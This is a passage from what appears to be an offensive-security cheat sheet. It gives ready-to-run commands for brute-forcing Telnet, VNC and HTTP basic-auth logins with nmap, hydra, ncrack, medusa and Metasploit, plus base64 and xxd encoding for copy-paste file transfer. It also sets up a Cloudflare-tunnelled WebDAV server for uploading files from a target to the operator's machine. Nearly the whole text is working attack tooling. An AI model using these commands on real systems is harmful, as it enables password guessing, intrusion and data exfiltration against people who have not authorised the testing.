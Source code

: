 ### Telnet
```
nmap -p23 --script telnet-brute --script-args telnet-brute.timeout=8s "$T"
```

### VNC
```
nmap -p5900 --script vnc-brute "$T"
ncrack -P "${PLIST}" --user root "vnc://$T"
hydra -P "${PLIST}" "vnc://$T"
medusa -P "${PLIST}" –u root –M vnc -h "$T"
```
#### VNC (with metasploit)
```
msfconsole
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.0.1
set pass_file /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt
run
```

### HTML basic auth
```
echo admin >user.txt                     # Try only 1 username
echo -e "blah\naaddd\nfoobar" >pass.txt  # Add some passwords to try. 'aaddd' is the valid one.
nmap -p80 --script http-brute --script-args \
   http-brute.hostname=pentesteracademylab.appspot.com,http-brute.path=/lab/webapp/basicauth,userdb=user.txt,passdb=pass.txt,http-brute.method=POST,brute.firstOnly \
   pentesteracademylab.appspot.com
```

## openssl encode
```
openssl base64 < file
```
### openssl decode (cut & paste the 1 line from above):
```
openssl base64 -d > file-COPY
```

## xxd encode
```
xxd -p < file
```
### xxd decode
```
xxd -p -r > file-COPY
```

## File transfer - using WebDAV
```
cloudflared tunnel --url localhost:8080 &
```
```
# [...]
# +--------------------------------------------------------------------------------------------+
# |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
# |  https://example-foo-bar-lights.trycloudflare.com                                          |
# +--------------------------------------------------------------------------------------------+
# [...]
wsgidav --port=8080 --root=.  --auth=anonymous
# Upload a file to your workstation
```